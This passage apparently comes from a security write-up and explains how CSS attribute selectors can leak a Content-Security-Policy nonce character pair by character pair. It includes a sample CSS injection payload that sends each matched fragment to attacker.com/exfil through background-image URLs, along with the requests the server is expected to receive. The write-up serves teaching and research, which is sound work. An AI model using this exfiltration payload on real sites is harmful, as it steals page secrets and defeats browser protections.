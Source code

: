 In summary, we can only do the following:
- check what something starts with (using `[att^=val]`)
- check what something ends with (using `[att$=val]`)
- check whether some sequence of characters exist in between (using `[att*=val]`). 


This isn't very hopeful, and there doesn't seem to be a straightforard way to leak the nonce. After staring at this primitive for quite a bit, I realized something that I could do that would be quite cute. Suppose the thing we want to leak looks as follows:

{% highlight html %}
<meta http-equiv="Content-Security-Policy" content="abcd">
{% endhighlight %}

We could, in theory, leak the first 2 characters of the content (i.e. `ab`) using the `[att^=val]` primitive which allows us to see what attributes start with, leak `bc` using the `[att*=val]` which allows us to enumerate all substrings in the field, and finally leak `cd` with the `[att$=val]` which gives us the two characters that the content ends with. More concretely, with the following payload:

{% highlight html %}
<style>
* {display: block;}
meta[content^="aa"]{
    background-image: url(https://attacker.com/exfil/?START=aa);
}
meta[content^="ab"]{
    background-image: url(https://attacker.com/exfil/?START=ab);
}
...
meta[content*="aa"]{
    background-image: url(https://attacker.com/exfil/?MID=aa);
}
...
meta[content*="bc"]{
    background-image: url(https://attacker.com/exfil/?MID=bc);
}
...
meta[content$="aa"]{
    background-image: url(https://attacker.com/exfil/?END=aa);
}
...
meta[content$="cd"]{
    background-image: url(https://attacker.com/exfil/?END=cd);
}
...
</style>
{% endhighlight %}


We _should_ receive the following requests on our server:

```
https://attacker.com/exfil/?START=ab
https://attacker.com/exfil/?MID=ab
https://attacker.com/exfil/?MID=bc
https://attacker.com/exfil/?MID=cd
https://attacker.com/exfil/?END=cd
```
